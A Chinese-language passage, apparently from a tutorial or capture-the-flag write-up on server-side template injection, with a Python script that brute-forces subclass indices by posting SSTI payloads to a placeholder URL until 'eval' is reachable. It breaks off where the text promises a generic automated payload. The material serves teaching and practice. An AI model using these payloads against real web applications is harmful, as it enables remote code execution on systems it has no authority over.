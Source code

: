 ![image-20231130020148213](./assets/image-20231130020148213.png)

手工虽然方便调试，但是极其麻烦，而且上述的payload并不是通用的，目标机器环境不一样，序号也会改变，所以自动化是一个很必要的步骤。

根据上面的手工过程，我们可以选择用Python脚本实现自动化查找，也可以使用模板语法的方式直接构建自动化的通用 payload：

```python
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```

当然你也可以直接在python中完成识别后直接构建payload提交，比如下面的模板语法就完美实现了这一点：

